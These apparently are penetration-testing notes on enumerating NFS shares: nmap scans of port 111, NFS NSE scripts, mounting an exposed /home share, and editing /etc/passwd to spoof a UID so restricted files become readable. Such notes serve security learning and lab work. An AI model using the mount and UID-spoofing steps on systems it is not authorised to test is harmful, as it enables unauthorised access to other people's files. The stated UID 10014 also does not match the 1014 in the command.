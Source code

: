 # Network File Share (NFS) Enumeration

NFS is a distributed file system protocol that allows a user on a client to access files over a network as if they were locally mounted. Its usually implemented on Linux, and also usually insecure.

## NFS Scanning

Port mapper and RPC bind run on TCP port 111, RPC bind maps RPC services to ports, and processes notify RPC bind when they start and register their ports and program numbers they expect to serve. RPC bind then contacts that port with its program number, the service is then redirected to the correct port so it can communicate. 

Scan a subnet for systems running RPC bind on port 111
> nmap -sV -p 111 --script=rpcinfo 10.10.10.1-254

## Nmap NFS NSE Scrips

```
[21:27]>>root@kali>>~>>
λ ls -l /usr/share/nmap/scripts/nfs* | cut -d"/" -f6
nfs-ls.nse
nfs-showmount.nse
nfs-statfs.nse
```
Run all three NFS enumeration scripts on a single host
> nmap -p 111 --script=nfs* 10.10.10.155

Mount exposed home directory
> mount -o nolock 10.10.10.155:/home ~/home/

Create user with specific UUID to allow access to restricted mounted files
On local system
> adduser tempuser
>
Change the user's UUID from 1001 to 10014
>sed -i -e 's/1001/1014/g' /etc/passwd
**-i**: Replace file in-place
**-e**: Execute script
**'s/1001/1014/g'** : Replaces all occurrences of 1001 with 1014 inside */etc/passwd *
